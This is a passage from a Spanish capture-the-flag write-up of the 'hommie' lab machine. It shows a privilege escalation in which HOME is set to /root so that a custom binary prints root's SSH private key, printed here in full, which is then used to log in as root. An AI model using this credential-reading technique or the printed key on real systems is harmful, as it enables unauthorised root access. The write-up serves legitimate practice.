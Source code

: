 ~~~
alexia@hommie:~$ export HOME=/root
alexia@hommie:/home/alexia$ /opt/showMetheKey
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAvBYog1I3rTTmtMw6i7oPRYy7yj8N6zNT3K9QhalnaTF+Md5NjbX5
hhNfZjO0tNbMGEeJtNTc3FpYWcAujrrd3jO5MzHUWAxQoyYYrZOFj2I5Fz/0RxD7e89H11
5nT7+CSUeddP/UeoyvSPgaruwrwD+dUl7+GiXo3sc5vsq3YufTYh1MlMKb/m7KmVk5n4Tk
/IFJwuuc3U4OZiRwXOmK4W2Gfo0Fonu6vFYmhpcCsi7V8g3hpVmOZIU8ZUtG1YbutCVbOC
EGyc1p5nbnyC0IIF5Y2EhjeevX8gmj4Kdv/y6yuvNdsJKm+ed2EEY9AymmPPwIpQshFwKz
Y0yB8N1jkQAAA8BiCyR9YgskfQAAAAdzc2gtcnNhAAABAQC8FiiDUjetNOa0zDqLug9FjL
vKPw3rM1Pcr1CFqWdpMX4x3k2NtfmGE19mM7S01swYR4m01NzcWlhZwC6Out3eM7kzMdRY
DFCjJhitk4WPYjkXP/RHEPt7z0fXXmdPv4JJR510/9R6jK9I+Bqu7CvAP51SXv4aJejexz
m+yrdi59NiHUyUwpv+bsqZWTmfhOT8gUnC65zdTg5mJHBc6YrhbYZ+jQWie7q8ViaGlwKy
LtXyDeGlWY5khTxlS0bVhu60JVs4IQbJzWnmdufILQggXljYSGN569fyCaPgp2//LrK681
2wkqb553YQRj0DKaY8/AilCyEXArNjTIHw3WORAAAAAwEAAQAAAQA/OvPDshAlmnM0tLO5
5YLczsMS6r+zIj4/InDffmPVaV4TRbisu1B3Umvv39IQOWXDg8k3kZfuPDEXexQrx4Zu/N
R18XqBXyJ8toH1WHK+ETdAKa/ldEAXD0gHjyUMGkWifQDiJF86E7GZxk6yH5NVvg0Vc/nY
sIXo3vD6wwuDo/gj+u4RRYMH3NYkLSj/O67cxGXnTOZPGzGsFTrE218BNtNqbRBR9/immU
irjugqebxY135Z4oECe/Hv4mP2e7n5QVO8FnYklQ4YU6y0ZTAMtjZCAhslXSKvaJPLjXuk
/HpdYhSoojm3vTAq/NT/oir0wA2ZYGdnF/Bxm6v/mntBAAAAgF2pqZEe9UqzcsAfOujr6z
DMRgPpl8qsdhDz6aftdg24AYmgXJ1D7PWUDpU6puO3VxJGrOwvcgD6xELRTxeFjd/2ssrh
4OO/kTvK4K0WVB/bnZ4y724iLcThfHDbzTTc5ckn45tyso8540iKha5ay1i24GwRPWddie
B/qcB1bHNOAAAAgQDmmptuwTRwUSiU1NtZRnJFvxvzLw6Wy/Cb2G+n5KY0ce5cYHT2HSIr
zsbPaDXQNBFy4iu1DAXAJJXTrxjOaAeLVYSb/8eZ1dhcgkxoAC8i2l6NwNmsjhGQKv++fV
qMfIdzVmriLXBZf7DU97YZeDIOrdOOV5CHhq+37i4xNdK18wAAAIEA0Mzc8HYvrXk4ecyi
KXP5u2Zxw2LADJ8DFeKWZmCUuNKFD1TuqdauxKxIVKVDaHvcnEr1bOiEBBso/X1CCtKjE+
12ZOWvqZ4fORxiNs9n/9YxlUSDAw7kyKd9H7dRRFdtb80OgDiwf18tDlEdboGWm/DR0NPq
gmxzbd40GES6DWsAAAALcm9vdEBob21taWU=
-----END OPENSSH PRIVATE KEY-----
~~~

Copiamos la clave en un fichero y le damos permiso 600 igual que antes, solo falta conectarse como root con la misma:

~~~
alexia@hommie:/home/alexia$ chmod 600 id_rsa 
alexia@hommie:/home/alexia$ ssh -i id_rsa root@localhost
Linux hommie 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Feb  1 11:09:07 2023 from ::1
root@hommie:~# ls
note.txt
root@hommie:~# cat note.txt
I dont remember where I stored root.txt !!!
root@hommie:~# find / -name root.txt
/usr/include/root.txt
root@hommie:~# cat /usr/include/root.txt
~~~

Con esto finalizamos la máquina. Me gusta que *sml* siempre varía las formas de resolver sus máquinas para que practiques cosas nuevas. Agradecer como siempre su trabajo para la comunidad.




